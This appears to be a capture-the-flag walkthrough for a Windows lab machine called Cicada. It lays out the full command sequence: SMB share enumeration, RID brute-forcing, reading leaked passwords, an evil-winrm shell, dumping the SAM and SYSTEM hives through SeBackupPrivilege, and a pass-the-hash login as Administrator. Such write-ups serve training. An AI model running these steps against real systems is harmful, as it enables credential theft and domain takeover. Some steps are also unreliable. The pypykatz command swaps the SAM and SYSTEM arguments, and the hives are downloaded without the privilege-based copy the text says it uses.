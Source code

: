 # Cicada

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :-- | :--- | :--- | :--- |
| 1 | `N/A` | **Nmap Scan & SMB Enumeration** | Performed initial enumeration using **Nmap** to discover open ports. Identified port `445` (SMB) was open. Used **`smbclient`** to access an unsecured share and found a file containing a default password for new employees. |
| 2 | `Michael.wrightson` | **RID Brute-Forcing** | Used **`enum4linux-ng`** to perform a RID brute-force attack on the target. This revealed the username `Michael.wrightson`. Used the default password found earlier to connect and enumerate other user accounts, which revealed the user `david`. |
| 3 | `emily.oscars` | **File Analysis & Password Discovery** | Connected to the SMB share with the `david` credentials. Discovered and downloaded a **backup script**. The script contained a plaintext password for a new user, `emily.oscars`. |
| 4 | `emily.oscars` | **Initial Shell Access** | Gained an initial shell on the system using **`evil-winrm`** with the discovered `emily.oscars` credentials. Located and retrieved the `user.txt` flag. |
| 5 | `Administrator` | **Privilege Escalation** | Enumerated the current user's privileges and found the `SeBackupPrivilege`. Used this privilege to download the `SAM` and `SYSTEM` registry hives. Extracted the **`Administrator` NTLM hash** using **`pypykatz`** and used it to log in with `evil-winrm` and get the `root.txt` flag. |

### ⚙️ Initial Access

1.  **Nmap Scan & SMB Reconnaissance**:

      - Perform a targeted Nmap scan:
        ```bash
        nmap -sV -sC 10.10.11.35
        ```
      - Use `smbclient` to list the shares without credentials:
        ```bash
        smbclient -L 10.10.11.35
        ```
      - Connect to the "HR" share:
        ```bash
        smbclient //10.10.11.35/HR
        ```
      - Inside the share, download the file containing the password:
        ```bash
        smb: \> ls
        smb: \> get "new_hire_info.txt"
        ```

2.  **RID Brute Force & User Enumeration**:

      - Use `enum4linux-ng` to enumerate users:
        ```bash
        enum4linux-ng -u 'Michael.wrightson' -p 'CicadXXXXXXXXXXXXXXXXXXX' 10.10.11.35
        ```
      - This command will reveal other user accounts, including **david**.

3.  **Find a New Password**:

      - Connect to the SMB share again, this time with the username **david** and the discovered password:
        ```bash
        smbclient //10.10.11.35/david -U david
        ```
      - Password: `aRtXXXXXXXXXXX`
      - Explore the directories to find a backup script and download it:
        ```bash
        smb: \> ls
        smb: \> get "backup_script.ps1"
        ```
      - Examine the script to find the new credentials: `emily.oscars`:`Q!3XXXXXXXXXXXXXX`

4.  **Get the User Flag**:

      - Use `evil-winrm` to connect with the new credentials:
        ```bash
        evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3XXXXXXXXXXXXXX'
        ```
      - Once connected, find the `user.txt` file:
        ```powershell
        ls
        cat user.txt
        ```

### 🔑 Privilege Escalation

1.  **Exploit SeBackupPrivilege**:

      - In the `evil-winrm` session, run the following command to check your privileges:
        ```powershell
        whoami /all
        ```
      - This will confirm `SeBackupPrivilege` is enabled.

2.  **Extract Administrator Hash**:

      - Use `evil-winrm`'s built-in functionality to download the `SAM` and `SYSTEM` hives. First, navigate to the directory:
        ```powershell
        cd C:\Windows\System32\config\
        ```
      - Download the files to your local machine:
        ```powershell
        download SYSTEM
        download SAM
        ```
      - On your local machine, use `pypykatz` to extract the password hashes from the downloaded files. **Note**: You may need to install `pypykatz` first (`pip install pypykatz`).
        ```bash
        pypykatz lsa sam --sam SYSTEM --system SAM
        ```
      - This command will output the NTLM hash for the `Administrator` account.

3.  **Final Login & Root Flag**:

      - Use `evil-winrm` to perform a pass-the-hash attack with the Administrator hash. Replace `<ADMIN_HASH>` with the hash you extracted.
        ```bash
        evil-winrm -i 10.10.11.35 -u Administrator -H <ADMIN_HASH>
        ```
      - Once logged in as Administrator, locate and read the `root.txt` file:
        ```powershell
        ls C:\Users\Administrator
        cat C:\Users\Administrator\root.txt
        ```